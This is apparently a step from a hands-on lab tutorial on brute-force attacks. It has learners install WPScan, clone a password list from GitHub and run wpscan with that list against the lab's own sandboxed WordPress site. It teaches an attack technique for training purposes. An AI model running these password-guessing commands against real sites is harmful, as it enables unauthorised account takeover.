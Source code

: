 ## **3. Introduction Brute-Force Attack**
---

## **What is Brute-force attack?**
```
Brute-force attack means the attacker submits a huge number of passwords or usernames to guess the username and password correctly. 
```
### Now let try to enforce the brute-force attack to the WordPress website we have just created.
<br></br>
## Step 1:
### Download the WPscan using the command:

```sh
gem install wpscan{{execute}}
```
<br></br>
## Step 2:
### Clone the crack.txt file which includes a list of password from Github using the command:
```sh
git clone https://github.com/tonywong586/CrackList.git{{execute}}
```
<br></br>
access the CrackList file using the following command:
```sh
cd CrackList
```
<br></br>
## Step 4:
### Use the following command to enforce the Brute-force attack
```sh
wpscan --url https://[[HOST_SUBDOMAIN]]-8000-[[KATACODA_HOST]].environments.katacoda.com --passwords crack.txt{{execute}}
```

